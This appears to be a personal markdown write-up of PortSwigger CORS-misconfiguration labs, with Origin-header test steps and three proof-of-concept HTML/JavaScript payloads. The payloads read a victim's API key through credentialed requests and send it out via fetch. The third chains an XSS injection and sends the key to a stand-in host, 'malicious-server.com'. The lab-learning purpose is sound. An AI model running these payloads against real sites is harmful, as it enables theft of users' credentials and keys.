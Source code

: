 ### PortSwigger Labs

**Test Cases**
* If there's an error assume it doesn't work

  1. Try putting a random url into the `Origin:` header and repeating the request
    + If the _request still works_, then it's probably **taking in user input** for origin
    + If reponse **allows credentials** & takes user input for origin, sensitive info can be grabbed
    
  2. Change the origin header to the `null` value
    + If reponse **allows credentials** & takes user input for origin, api key can be grabbed
    
  3. Change the origin header to one that **begins** with the _origin of the site_,
     but has _malicious subdomain_
    - May need to put _scheme_ as well like `https://`
    - Example: `https://vulnerable-site.com.malicious.net`
     * `https://vulnerable-site.com` is the original site
     * `.malicious.net` is user controlled
 
  4. Change the origin header to one that **end** with th _origin of the site_,
     but has _malicious subdomain_ 
    - May need to put scheme as well like `https://`
    - Example: `https://randomurl.vulnerable-site.com`
     * `https://vulnerable-site.com` is the original site
     * `randomur.` is user controlled
    
   ==========================================================
   

**LAB 1 - CORS vulnerability with basic origin reflection**

+ `GET /accountDetails` - The target API that has useful info (api key)
 - Sent request to _Repeater in Burp_

+ `Access-Control-Allow-Credentials: true` so credentials is being used
 - Target Goal - exploit the CORS misconfiguration to retrieve the _administrator's API key_ or 
   your own creds as a proof of concept

Testing for CORS misconfigurations:
  1. Try putting a random url into the `Origin:` header and repeating the request
    + If the _request still works_, then it's probably **taking in user input** for origin
    + Since this allows credentials & takes user input for origin, api key can be grabbed

```PoC-Run_In_Local_Server_Like_Python_SimpleHTTPSever
<html>
    <body>
    <h1>Hello</h1>
    <script>
        var xhr = new XMLHttpRequest();
        var url = 'https://vulnerable-site.com'; // this URL should be from the `Host:` header in request
        
        xhr.onreadystatechange = function() {
            if (xhr.readyState == XMLHttpRequest.DONE) {
                fetch('/log?key=' + xhr.responseText) // grabbing the api key (based on what's in response)
            }
        }
        
        xhr.open('GET', url + '/accountDetails', true);
        xhr.withCredentials = true;
        xhr.send(null)
    </script>
    </body>
</html>
```


   ==========================================================
   

**LAB 2 - CORS vulnerability with trusted null origin**

+ `GET /accountDetails` - The target API that has useful info (api key)
 - Sent request to _Repeater in Burp_

+ `Access-Control-Allow-Credentials: true` so credentials is being used
 - Target Goal - exploit the CORS misconfiguration to retrieve the _administrator's API key_


Testing for CORS misconfigurations:
  1. Try putting a random url into the `Origin:` header and repeating the request
    - _Didn't work for this lab_
    
  2. Change the origin header to the `null` value
    + If this works, we will have to use an `iframe`

```PoC-Run_In_Local_Server_Like_Python_SimpleHTTPSever
<html>
    <body>
    <h1>Hello</h1>
    
    //iframe added
    <iframe style="display: none;" sandbox="allow-scripts" srcdoc="
    <script>
        var xhr = new XMLHttpRequest();
        var url = 'https://vulnerable-site.com'; // this URL should be from the `Host:` header in request
        
        xhr.onreadystatechange = function() {
            if (xhr.readyState == XMLHttpRequest.DONE) {
            
                fetch('https://vulnerable-site.com/log?key=' + xhr.responseText)
                     // ^Have to specify url (from `Host:` header in request)
                     // since in a sandbox when grabbing the api key (based on what's in response)
            }
        }
        
        xhr.open('GET', url + '/accountDetails', true);
        xhr.withCredentials = true;
        xhr.send(null)
        
    </script>"></iframe>
    //added iframe end
    
    </body>
</html>
```
+ Note that if using `python -m SimpleHTTPSever 5555`,
  the _URL_ in `fetch()` must have `:5555` after the _URL_

   ==========================================================
   
**LAB 3 - CORS vulnerability with trusted insecure protocols**
  **CORS & XSS**

+ `GET /accountDetails` - The target API that has useful info (api key)
 - Sent request to _Repeater in Burp_

+ `Access-Control-Allow-Credentials: true` so credentials is being used
 - Target Goal - exploit the CORS misconfiguration to retrieve the _administrator's API key_
 
+ You need to acutally find a subdomain in target app to test on
 - When click `Check stock` you find a _subdomain:_ `https://stock.vulnerable-site.com`
                                                             
+ There's an XSS vulnerability in the `GET request` to the above stock subdomain
 - `GET/?productId=<script>alert(document.domain)</script>&storeId=1`

+ We need to store our _JS_ into the _XSS vulnerable parameter_



Testing for CORS misconfigurations:
  1. Try putting a random url into the `Origin:` header and repeating the request
    - _Didn't work for this lab_
    
  2. Change the origin header to the `null` value
    - _Didn't work for this lab_
    
  3. Change the origin header to one that **begins** with th _origin of the site_,
     but has malicious subdomain
    - May need to put scheme as well like `https://`
    - Example: `https://vulnerable-site.com.malicious.net`
     * `https://vulnerable-site.com` is the original site
     * `.malicious.net` is user controlled

  4. Change the origin header to one that **end** with th _origin of the site_,
     but has malicious subdomain
    - May need to put scheme as well like `https://`
    - Example: `https://randomurl.vulnerable-site.com`
     * `https://vulnerable-site.com` is the original site
     * `randomur.` is user controlled

```PoC-Run_In_Local_Server_Like_Python_SimpleHTTPSever
<html>
    <body>
    <h1>Hello</h1>
    
    <script>
        // Had to make this JS Chunk one line to fit as XSS
                                                                   //v---new script tag opening (XSS) 
        document.location="https://vulnerable-site.com/?productId="<script>var xhr = new XMLHttpRequest();var url = 'https://vulnerable-site.com';xhr.onreadystatechange = function() {if (xhr.readyState == XMLHttpRequest.DONE) {fetch('https://malicious-server.com/log?key=' %2b xhr.responseText)}}xhr.open('GET', url %2b '/accountDetails', true);xhr.withCredentials = true;xhr.send(null);%3c/script>&storeId=1"
      
       // the `/log?key=` is within the malicious-server.com cause that's the keword to grab api key?
       //  ^try testing this without it to see
       // %2b is the URL encoding of `+`
       // %3c is the URL encoding of `<`
       
    </script>
    
    </body>
</html>
```
+ May need to look at `Console` in _Developer Tools_ to debug this
+ Note that if using `python -m SimpleHTTPSever 5555`,
  the _URL_ in `fetch()` must have `:5555` after the _URL_

   ==========================================================
   
   
